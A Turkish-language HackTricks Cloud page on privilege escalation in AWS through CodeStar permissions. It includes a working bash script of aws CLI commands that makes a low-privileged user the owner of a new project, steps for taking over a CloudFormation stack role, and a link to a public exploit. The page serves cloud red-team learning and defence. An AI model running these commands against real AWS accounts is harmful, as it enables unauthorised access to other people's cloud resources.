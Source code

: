 # AWS - Codestar Yetki Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Codestar

Codestar hakkında daha fazla bilgiye şuradan ulaşabilirsiniz:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Bu izinlerle bir codestar IAM Rolü'nü **kötüye kullanarak** bir **cloudformation şablonu** aracılığıyla **keyfi işlemler gerçekleştirebilirsiniz**. Aşağıdaki sayfaya bakın:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Bu teknik, `codestar:CreateProject` kullanarak bir codestar projesi oluşturur ve `codestar:AssociateTeamMember` kullanarak bir IAM kullanıcısını yeni bir CodeStar **projesinin sahibi** yapar, bu da onlara **birkaç ek izin içeren yeni bir politika** sağlar.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Eğer zaten **projenin bir üyesi** iseniz, **`codestar:UpdateTeamMember`** iznini kullanarak rolünüzü `codestar:AssociateTeamMember` yerine sahibe güncelleyebilirsiniz.

**Potansiyel Etki:** codestar politikasına ayrıcalık yükseltme. Bu politikanın bir örneğini aşağıdaki bağlantıda bulabilirsiniz:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Yeni Bir Proje Oluşturun:**
- Yeni bir proje oluşturmak için **`codestar:CreateProjectFromTemplate`** eylemini kullanın.
- Başarılı bir oluşturma işleminden sonra, otomatik olarak **`cloudformation:UpdateStack`** için erişim sağlanır.
- Bu erişim, genellikle `CodeStarWorker-<genel proje adı>-CloudFormation` IAM rolü ile ilişkilendirilmiş bir yığını hedefler.

2. **Hedef Yığını Güncelleyin:**
- Verilen CloudFormation izinleriyle, belirtilen yığını güncellemeye devam edin.
- Yığının adı genellikle iki desene uygun olacaktır:
- `awscodestar-<genel proje adı>-infrastructure`
- `awscodestar-<genel proje adı>-lambda`
- Tam ad, seçilen şablona bağlıdır (örnek saldırı betiğine atıfta bulunur).

3. **Erişim ve İzinler:**
- Güncelleme sonrasında, yığınla ilişkili **CloudFormation IAM rolüne** atanan yeteneklere sahip olursunuz.
- Not: Bu, otomatik olarak tam yönetici ayrıcalıklarını sağlamaz. Ayrıcalıkları daha da yükseltmek için ortamdaki yanlış yapılandırılmış kaynaklar gerekebilir.

Daha fazla bilgi için orijinal araştırmaya bakın: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Exploit'i [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py) adresinde bulabilirsiniz.

**Potansiyel Etki:** CloudFormation IAM rolüne ayrıcalık yükseltme.

<details>

<summary><strong><a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a> ile sıfırdan kahraman olmak için AWS hackleme öğrenin</strong>!</summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **tanıtmak veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da** takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
